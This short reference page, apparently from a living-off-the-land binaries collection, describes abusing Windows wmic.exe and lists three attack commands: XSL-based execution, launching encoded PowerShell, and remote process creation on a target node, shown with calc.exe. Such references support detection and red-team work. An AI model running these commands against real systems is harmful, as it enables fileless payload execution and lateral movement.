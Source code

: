 # wmic.exe
## What is it?
*wmic.exe is a command-line utility for interacting with Windows Management Instrumentation (WMI).*

## How to abuse it
*Executes remote commands and gathers system information.*

*Can be used to execute payloads without dropping files.*

## Example Attacks
```
wmic os get /FORMAT:"file.xsl"

wmic process call create "powershell -enc <base64_payload>"

wmic /node:"targetPC" process call create "cmd.exe /c calc.exe"
```
*Calculator is spawned by svchost.exe:*

![image](https://github.com/user-attachments/assets/9be8f30e-5e05-42e4-a813-a53fb1fc436a)
